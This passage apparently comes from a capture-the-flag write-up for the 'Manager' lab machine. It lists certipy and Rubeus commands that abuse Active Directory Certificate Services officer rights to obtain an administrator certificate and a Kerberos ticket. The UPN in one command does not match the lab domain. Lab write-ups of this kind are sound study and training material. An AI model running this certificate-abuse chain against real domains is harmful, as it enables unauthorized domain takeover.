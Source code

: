 First add raven as an officer using the Linux python "certipy-ad" script.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/34bdc3ea-a511-4dcd-8ba1-c2c3f421c458)

<br />

Then enable the SubCA template
```
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA raven@manager.htb -password <password>
```

<br />

Next make a request to the CA for the Administrators certificate
```
certipy req -username raven@manager.htb -password <password> -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@corp.local
```

Ensure to note down the request number.

<br />

Then use our officer role to issue the request.

```
certipy ca -ca 'manager-DC01-CA' -issue-request <id> -username raven@manager.htb -password <password>
```

<br />

Finally we can retrieve the approved certificate

```
certipy req -username raven@manager.htb -password <password> -ca manager-DC01-CA -target dc01.manager.htb -retrieve <id>
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/deb4c188-3168-4550-92d6-1b1669905110)

<br />

After obtaining the certificate, covert the certificate in base64 format so we can ask for an Administrator TGT from the Kerberos KDC.

```
cat administrator.pfx | base64 -w 0
```

<br />

Then utilize this certificate with Rubeus to get a TGT, and cache it into our current environment.

```
Rubeus.exe asktgt /user:administrator /certificate:MIIM7w[...]ECAggA /password:fakepass123 /nowrap /ptt
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/9bed0a88-9607-44bb-8da6-35ae5420bb2b)

